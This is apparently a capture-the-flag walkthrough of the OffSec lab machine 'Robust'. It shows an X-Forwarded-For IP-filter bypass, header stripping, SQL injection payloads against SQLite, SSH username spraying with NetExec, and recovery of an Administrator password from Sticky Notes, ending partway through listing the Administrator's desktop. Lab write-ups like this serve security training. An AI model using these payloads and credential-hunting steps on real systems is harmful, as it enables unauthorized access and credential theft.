






# Robust

- [Machine information](#machine-information)
- [Solution](#solution)
- [References](#references)

## Machine information

```text
Type: PG Practice
Difficulty: Fundamental
Community Rating: Hard
Meta Tags: Walkthrough, Walk-through, Write-up, Writeup
OS: Windows
Points: 15
Number of Flags: 2
Lab Description:
Access will be gained by bypassing a 403 Forbidden restriction and the login page using the X-Forwarded-For and 
Location headers. Finally, we will log in as Administrator via SSH using the discovered credentials. This lab 
focuses on exploiting web application vulnerabilities and credential enumeration techniques.
```

Machine link: [https://portal.offsec.com/machine/robust-38783/overview/details](https://portal.offsec.com/machine/robust-38783/overview/details)  
Writeup Author: Cajac

## Solution

### Scan for services with nmap

We start by scanning the machine on all TCP-ports with `nmap` including service info and default scripts.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ export TARGET_IP=192.168.158.200 
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ sudo nmap -sC -sV -p- $TARGET_IP 
[sudo] password for kali: 
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-21 13:19 +0100
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.35 seconds
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ sudo nmap -sC -sV -p- -Pn $TARGET_IP
Starting Nmap 7.99 ( https://nmap.org ) at 2026-11-21 13:20 +0100
Nmap scan report for 192.168.158.200
Host is up (0.033s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH for_Windows_8.1 (protocol 2.0)
| ssh-hostkey: 
|   3072 21:76:63:1c:3b:10:a6:a7:73:d6:e7:dd:1e:a2:b6:83 (RSA)
|   256 62:a8:39:f6:ab:92:cd:26:03:bf:1e:28:25:4e:8e:7a (ECDSA)
|_  256 02:39:7c:e2:af:6a:44:98:ec:9a:28:98:a0:8b:fe:c4 (ED25519)
80/tcp   open  http       PHP cli server 5.5 or later (PHP 7.3.33)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was login.php
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
7680/tcp open  pando-pub?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 154.37 seconds
```

We have the following TCP-services running and available:

- [OpenSSH](https://en.wikipedia.org/wiki/OpenSSH) for Windows 8.1 on port 22
- A PHP cli web server on port 80
- An unknown service on port 7680

### Analyse the web site

Browsing manually to `http://192.168.158.200/` we get redirected to `http://192.168.158.200/login.php` and get this error message:

```text
Your IP is not allowed to use this webservice. Only 10.10.10.x is allowed
```

We ought to be able to bypass this check with a custom [X-Forwarded-For](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/X-Forwarded-For) request header.

### Bypass the IP filter

To bypass the IP filtering we change the `Proxy settings` in [Burp](https://portswigger.net/burp) under `HTTP match and replace rules`:



We make sure the rule is enabled together with the `Only apply to in-scope items` setting.



After refreshing the page, we see a login portal for the `Robust Employee Manager`:



Testing standard credentials such as `admin:admin` and `admin:password` fails.

In addition, we also scan for additional directories and files with `ffuf` with the extra `X-Forwarded-For` header set.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -recursion -ac -H "X-Forwarded-For: 10.10.10.111" -u http://$TARGET_IP/FUZZ

        /'___\  /'___\           /'___\ 
       /\ \__/ /\ \__/  __  __  /\ \__/ 
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\ 
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/ 
         \ \_\   \ \_\  \ \____/  \ \_\ 
          \/_/    \/_/   \/___/    \/_/ 

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.158.200/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Header           : X-Forwarded-For: 10.10.10.111
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

:: Progress: [220559/220559] :: Job [1/1] :: 602 req/sec :: Duration: [0:39:23] :: Errors: 0 ::

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.txt,.html -ac -H "X-Forwarded-For: 10.10.10.111" -u http://$TARGET_IP/FUZZ

        /'___\  /'___\           /'___\ 
       /\ \__/ /\ \__/  __  __  /\ \__/ 
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\ 
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/ 
         \ \_\   \ \_\  \ \____/  \ \_\ 
          \/_/    \/_/   \/___/    \/_/ 

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.158.200/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
 :: Header           : X-Forwarded-For: 10.10.10.111
 :: Extensions       : .php .txt .html 
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 200, Size: 1770, Words: 243, Lines: 103, Duration: 1839ms]
home.php                [Status: 302, Size: 3030, Words: 143, Lines: 59, Duration: 66ms]
.ds_store               [Status: 200, Size: 6148, Words: 9, Lines: 1, Duration: 61ms]
:: Progress: [225172/225172] :: Job [1/1] :: 510 req/sec :: Duration: [0:40:57] :: Errors: 0 ::
```

If we manually check the `home.php` file with `curl` we can see that HTML-data is actually returned before we get redirected.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ curl -H "X-Forwarded-For: 10.10.10.111" http://$TARGET_IP/home.php

<!doctype html>
<html lang="en">
<head>
        <!-- Required meta tags -->
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css"
              integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
        <script src="https://kit.fontawesome.com/214f4b7d30.js" crossorigin="anonymous"></script>
        <title>Manage Employees</title>
</head>
<body>
<div class="container">
        <h1>Manage Employees</h1>
        <hr/>


        <form method="get">
                <input type="hidden" name="action" value="search"/>
                <label>
                        First name:
                        <input type="text" name="first_name" value="">
                </label>
                <label>
                        Last name:
                        <input type="text" name="last_name" value="">
                </label>
                <input type="submit" value="Submit">
        </form>

                <table class="table table-striped">
                <thead>
                <tr>
                        <th scope="col">Id</th>
                        <th scope="col">First name</th>
                        <th scope="col">Last name</th>
                        <th scope="col">Birth date</th>
                        <th scope="col">Actions</th>
                </tr>
                </thead>
                <tbody>
                <tr><th scope="row">1</th><td>Desireef</td><td>Joubert</td><td>2007-04-01</td><td><a href="?action=update&id=1"><i class="fas fa-pencil-alt"></i></a>&nbsp;<a href="?action=delete&id=1"><i class="fas fa-trash"></i></a></td></tr><tr><th scope="row">2</th><td>Blythe</td><td>Weatherall</td><td>2007-05-10</td><td><a href="?action=update&id=2"><i class="fas fa-pencil-alt"></i></a>&nbsp;<a href="?action=delete&id=2"><i class="fas fa-trash"></i></a></td></tr><tr><th scope="row">3</th><td>Felisha</td><td>Bookman</td><td>2006-03-12</td><td><a href="?action=update&id=3"><i class="fas fa-pencil-alt"></i></a>&nbsp;<a href="?action=delete&id=3"><i class="fas fa-trash"></i></a></td></tr><tr><th scope="row">4</th><td>Natacha</td><td>Pua</td><td>2007-11-24</td><td><a href="?action=update&id=4"><i class="fas fa-pencil-alt"></i></a>&nbsp;<a href="?action=delete&id=4"><i class="fas fa-trash"></i></a></td></tr><tr><th scope="row">5</th><td>Chante</td><td>Fenske</td><td>2007-12-28</td><td><a href="?action=update&id=5"><i class="fas fa-pencil-alt"></i></a>&nbsp;<a href="?action=delete&id=5"><i class="fas fa-trash"></i></a></td></tr>               </tbody>
        </table>
        <p>Number of Employees: 10</p>
        <a href="?page=1">1</a> <a href="?page=2">2</a> 
</div>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js"
        integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n"
        crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js"
        integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo"
        crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js"
        integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6"
        crossorigin="anonymous"></script>
</body>
</html>

┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ curl -H "X-Forwarded-For: 10.10.10.111" -i -L -I http://$TARGET_IP/home.php
HTTP/1.1 302 Found
Host: 192.168.158.200
Date: Sat, 21 Nov 2026 13:08:18 GMT
Connection: close
X-Powered-By: PHP/7.3.33
Set-Cookie: PHPSESSID=cjev693jdn7g00akup25ef1npr; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-type: text/html; charset=UTF-8

HTTP/1.1 200 OK
Host: 192.168.158.200
Date: Sat, 21 Nov 2026 13:08:18 GMT
Connection: close
X-Powered-By: PHP/7.3.33
Set-Cookie: PHPSESSID=p8sa83aph3m9id049rh7aorhh8; path=/
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-type: text/html; charset=UTF-8
```

Finally, running `whatweb` we learn the version of PHP running.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ whatweb -a3 http://$TARGET_IP 
http://192.168.158.200 [302 Found] Cookies[PHPSESSID], Country[RESERVED][ZZ], IP[192.168.158.200], PHP[7.3.33], RedirectLocation[login.php], X-Powered-By[PHP/7.3.33]
http://192.168.158.200/login.php [200 OK] Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, IP[192.168.158.200], PHP[7.3.33], X-Powered-By[PHP/7.3.33]
```

### Bypass the redirection

To bypass the redirection to the login page, we can add another custom rule in Burp.

This time we remove the [Location](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Location) response header.



Browsing to `http://192.168.158.200/home.php` now shows us the `Manage Employee` page:



### Try SQL injection

Let's see if we can provoke an SQL error to confirm SQL injection.

We don't get an error messages but submitting:

First name: `' OR 1=1-- -`
Last name: `test`

shows an additional 11th hidden employee:



and thus confirms SQL injection.

### UNION-based SQL injection

Continue trying out payloads for `First name` we confirm that UNION-based SQL-injection is possible.

|First name|Last name|Comment|
|----|----|----|
|`' UNION SELECT 1, 2, 3, 4-- -`|test|Confirms UNION-based SQLi|
|`' UNION SELECT 1, sqlite_version(), 3, 4-- -`|test|Confirms database as SQLite, version is 3.28.0|
|`' UNION SELECT 1, name, 3, 4 FROM sqlite_master WHERE type='table'-- -`|test|List table names, incl. `employees`|
|`' UNION SELECT 1, sql, 3, 4 FROM sqlite_master WHERE name='employees'-- -`|test|List columns: `id`,`first_name`,`last_name`,`password`|
|`' UNION SELECT * FROM employees-- -`|test|List password for Jeff Hills: `Mathsisfun123`|

We have a password but are unsure about the username.

### Verify username

Let's assume that this password works for SSH. To verify the username we create a list of likely username formats:

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ vi usernames.txt 
 
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ cat usernames.txt 
jeff
jeff.hills
j.hills
jhills
jeff.h
jeffh
```

Then we verify them with NetExec.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ nxc ssh $TARGET_IP -u usernames.txt -p 'Mathsisfun123' 
/usr/lib/python3/dist-packages/anyio/from_thread.py:119: SyntaxWarning: 'return' in a 'finally' block
  return result
SSH         192.168.158.200 22     192.168.158.200  [*] SSH-2.0-OpenSSH_for_Windows_8.1
SSH         192.168.158.200 22     192.168.158.200  [+] jeff:Mathsisfun123 (Pwn3d!) with UAC - Windows - Shell access!
```

So the username is `jeff`!

### Connect with SSH

Let's connect as `jeff` to get a shell.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ ssh jeff@$TARGET_IP
The authenticity of host '192.168.158.200 (192.168.158.200)' can't be established.
ED25519 key fingerprint is SHA256:yU8TIdaHGC7RlixgxXYPcoG6AIQsh59/ABR21NrTkls.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.158.200' (ED25519) to the list of known hosts.
jeff@192.168.158.200's password: 
Microsoft Windows [Version 10.0.19042.1586]
(c) Microsoft Corporation. All rights reserved.
 
jeff@ROBUST C:\Users\Jeff> 
```

Nice!

### Get the user flag

The user flag can be found in the Desktop folder as usual.

```bat
jeff@ROBUST C:\Users\Jeff>cd Desktop 

jeff@ROBUST C:\Users\Jeff\Desktop>dir
 Volume in drive C has no label. 
 Volume Serial Number is 08DF-534D 
 
 Directory of C:\Users\Jeff\Desktop 
 
05/13/2022  08:50 AM    <DIR>          . 
05/13/2022  08:50 AM    <DIR>          .. 
11/21/2026  04:18 AM                34 local.txt  
               1 File(s)             34 bytes 
               2 Dir(s)   3,762,094,080 bytes free
 
jeff@ROBUST C:\Users\Jeff\Desktop>type local.txt  
e<REDACTED>4
 
jeff@ROBUST C:\Users\Jeff\Desktop>
```

### Tool transfer

Next, we transfer some tools we can use for enumeration.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ scp LaZagne.exe winPEASany.exe "jeff@$TARGET_IP:C:/Users/Jeff/Downloads/"
jeff@192.168.158.200's password: 
LaZagne.exe                                                                                                                                            100% 9899KB   8.9MB/s   00:01    
winPEASany.exe                                                                                                                                         100%   10MB  10.7MB/s   00:00  
```

### Enumeration for PrivEsc

Next, we enumerate the system for privilege escalation opportunities.

My [Windows Privilege Escalation Checklist](https://cajac.gitbook.io/ctf-notes/priv-esc/windows-privilege-escalation/windows-privesc-checklist) is used as guidance.

First, we check our privileges.

```bash
jeff@ROBUST C:\Users\Jeff\Desktop>whoami /priv

PRIVILEGES INFORMATION 
---------------------- 
 
Privilege Name                Description                          State  
============================= ==================================== =======
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
SeTimeZonePrivilege           Change the time zone                 Enabled

jeff@ROBUST C:\Users\Jeff\Desktop>
```

A check with LaZagne turns up empty.

```bat
jeff@ROBUST C:\Users\Jeff\Downloads>LaZagne.exe all

|====================================================================| 
|                                                                    | 
|                        The LaZagne Project                         | 
|                                                                    | 
|                          ! BANG BANG !                             | 
|                                                                    | 
|====================================================================| 
 

[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.7812662124633789

jeff@ROBUST C:\Users\Jeff\Downloads>
```

And so does the WinPEAS scan.

```bat
jeff@ROBUST C:\Users\Jeff\Downloads>winPEASany.exe 
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take seve
ral minutes. For help, run winpeass.exe --help
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' 
and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG AD
D HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
 
               (((((((((((((((((((((((((((((((( 
        ((((((((((((((((((((((((((((((((((((((((((( 
      ((((((((((((((**********/##########((((((((((((( 
    ((((((((((((********************/#######((((((((((( 
    ((((((((******************/@@@@@/****######(((((((((( 
    ((((((********************@@@@@@@@@@/***,####(((((((((( 
    (((((********************/@@@@@%@@@@/********##((((((((( 
    (((############*********/%@@@@@@@@@/************(((((((( 
    ((##################(/******/@@@@@/***************(((((( 
    ((#########################(/**********************((((( 
    ((##############################(/*****************((((( 
    ((###################################(/************((((( 
    ((#######################################(*********((((( 
    ((#######(,.***.,(###################(..***.*******((((( 
    ((#######*(#####((##################((######/(*****((((( 
    ((###################(/***********(##############()((((( 
    (((#####################/*******(################)(((((( 
    ((((############################################)(((((( 
    (((((##########################################)((((((( 
    ((((((########################################)((((((( 
    ((((((((####################################)(((((((( 
    (((((((((#################################)((((((((( 
        ((((((((((##########################)((((((((( 
              (((((((((((((((((((((((((((((((((((((( 
                 ((((((((((((((((((((((((((((((

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any 
other collaborator. Use it at your own devices and/or with the device owner's permission. 
 
  WinPEAS-ng by @hacktricks_live 
 
       /---------------------------------------------------------------------------------\ 
       |                             Do you like PEASS?                                  | 
       |---------------------------------------------------------------------------------| 
       |         Learn Cloud Hacking       :     training.hacktricks.xyz                 | 
       |         Follow on Twitter         :     @hacktricks_live                        | 
       |         Respect on HTB            :     SirBroccoli                             | 
       |---------------------------------------------------------------------------------| 
       |                                 Thank you!                                      | 
       \---------------------------------------------------------------------------------/ 

  [+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

 You can find a Windows local PE Checklist here: https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html
   Creating Dynamic lists, this could take a while, please wait... 
   - Loading sensitive_files yaml definitions file...
   - Loading regexes yaml definitions file...
   - Checking if domain...
   - Getting Win32_UserAccount info...
Error while getting Win32_UserAccount info: System.Management.ManagementException: Access denied 
   at System.Management.ThreadDispatch.Start() 
   at System.Management.ManagementScope.Initialize() 
   at System.Management.ManagementObjectSearcher.Initialize() 
   at System.Management.ManagementObjectSearcher.Get() 
   at winPEAS.Checks.Checks.CreateDynamicLists(Boolean isFileSearchEnabled)
   - Creating current user groups list...
   - Creating active users list (local only)...
  [X] Exception: Object reference not set to an instance of an object.
   - Creating disabled users list...
  [X] Exception: Object reference not set to an instance of an object.
   - Admin users list...
  [X] Exception: Object reference not set to an instance of an object.
   - Creating AppLocker bypass list...
   - Creating files/directories list for search...


------------------------------------¦ System Information ¦------------------------------------

+----------¦ Basic System Information
+ Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#version-exploits 
ERROR: Access denied
  [X] Exception: Access denied 
  [X] Exception: Access denied 
  [X] Exception: The given key was not present in the dictionary.

+----------¦ Showing All Microsoft Updates
  [X] Exception: Creating an instance of the COM component with CLSID {B699E5E8-67FF-4177-88B0-3684A3388BFB} from the IClassFactory failed due to the following error: 80070005 Access is
 denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED)).

+----------¦ System Last Shutdown Date/time (from Registry)

    Last Shutdown Date/time        :    5/13/2022 11:57:41 AM
<---snip--->
```

After a lot additional manual checking, a password is found in [the Sticky Notes local database](https://hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#sticky-notes).

```bat
jeff@ROBUST C:\Users\Jeff\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>type plum.sqlite
SQLite format 3►☻☻@  ☻☼♦☺
╛♂♀♀┌
<---snip--->
"DeletedAt" bigint ,
☺♫⌡♫⌡☺åé↓é! bigUU♠♠\id=0d4b8d2c-8539-4fb4-8c8b-184552bf9b92 Credentials:
\id=a6c52b67-f266-45ff-9aaf-5ccbe22f7d45 Admi☺¶éUU♠♠\id=0d4b8d2c-8539-4fb4-8c8b-184552bf9b92 Credentials:
uid=a6c52b67-f266-45ff-9aaf-5ccbe22f7d45 Administrator:MySupersecurePassword2112ManagedPosition=Yellow983b5947-15eb-4375-97f6-2d646a91dba42fa3c77f-fd17-442c-a2e8-11cd97ffdbb┘αö"£e┘αö=, 
►☼╪☼╪'♥U        983b5947-15eb-4375-97f6-2d646a91dba4
<---snip--->
jeff@ROBUST C:\Users\Jeff\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState>
```

We have a password for the `Administrator`: `MySupersecurePassword2112`.

And this credential check is now added to my checklist :-)

### Connect with SSH as Administrator

Hopefully we can just connect with SSH.

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Fundamental/Robust]
└─$ ssh Administrator@$TARGET_IP
Administrator@192.168.158.200's password: 


Microsoft Windows [Version 10.0.19042.1586]
(c) Microsoft Corporation. All rights reserved.
 
administrator@ROBUST C:\Users\Administrator>whoami
robust\administrator 
 
administrator@ROBUST C:\Users\Administrator>
```

And we can!

### Get the root flag

Finally, we can get the root flag:

```bash
administrator@ROBUST C:\Users\Administrator>cd Desktop

administrator@ROBUST C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label. 
 Volume Serial Number is 08DF-534D 
 
 Directory of C:\Users\Administrator\Desktop 
 
03/21/2022  09:14 PM    <DIR>          . 
